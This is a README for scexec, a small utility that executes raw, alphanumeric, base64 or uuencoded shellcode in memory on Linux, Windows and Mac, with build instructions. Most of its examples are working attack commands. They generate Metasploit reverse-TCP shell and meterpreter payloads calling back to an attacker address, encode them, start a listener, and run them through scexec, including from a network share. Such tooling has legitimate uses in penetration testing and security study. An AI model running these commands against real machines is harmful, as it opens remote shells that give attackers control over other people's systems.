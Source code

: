 scexec
======

Portable utility to execute in memory a sequence of opcodes

Features
========

- Linux/Windows/Mac support
- Visual C/C++, gcc, mingw32/mingw64 support
- Raw/Alphanumeric/Base64/UUdecode support
- Commandline argument/File support

Examples
========

## Linux target

    $ msfpayload linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 R | msfencode -a x86 -e x86/alpha_mixed -t raw BufferRegister=EAX
    $ msfcli multi/handler PAYLOAD=linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 E
    $ ./scexec <msfencode's alphanumeric-encoded payload>

## Windows target

    msfpayload windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 R | msfencode -a x86 -e x86/alpha_mixed -t raw BufferRegister=EAX
    msfcli multi/handler PAYLOAD=windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 E
    C:\> scexec.exe <msfencode's alphanumeric-encoded payload>

## Windows target with base64

    msfpayload windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 R | perl utils/base64encode.pl
    msfcli multi/handler PAYLOAD=windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 E
    C:\> scexec.exe b <msfpayload-base64encoded-payload>

## Linux target with uudecode/uuencode

    $ msfpayload linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 R | perl utils/uuencode.pl
    $ msfcli multi/handler PAYLOAD=linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 E
    $ ./scexec u <msfpayload-uuencoded-payload>

## Few more quick examples

Read payload from filename msfpayloadfn:

    C:\> scexec.exe f <msfpayloadfn>

Read base64 encoded payload from filename msfpayloadfn:

    C:\> scexec.exe fb <msfpayloadfn>

Read base64 payload from share:

    C:\> \\192.168.1.1\\scexec.exe f \\192.168.1.1\\msfpayload.raw

Options explained
=================

Options can be combined:

no options - read alphanumeric shellcode from commandline

a - execute shellcode through call eax/rax

f - read shellcode from file

b - treat input shellcode as base64 encoded

u - treat input shellcode as uuencoded shellcode


Building
========

### Linux/Mac/POSIX builds

Just type:

    make

### Mingw builds:

32 bit:

    make CC=i686-w64-mingw32-gcc STRIP=i686-w64-mingw32-strip OUT=scexec32.exe

64 bit:

    make CC=x86_64-w64-mingw32-gcc STRIP=x86_64-w64-mingw32-strip OUT=scexec64.exe

### Visual Studio:

32 bit:

    nmake /f Makefile.vc

64 bit:

    nmake /f Makefile.v64

Credits
=======

Vlatko Kosturjak

Based on Bernardo Damele A. G. shellcodeexecute

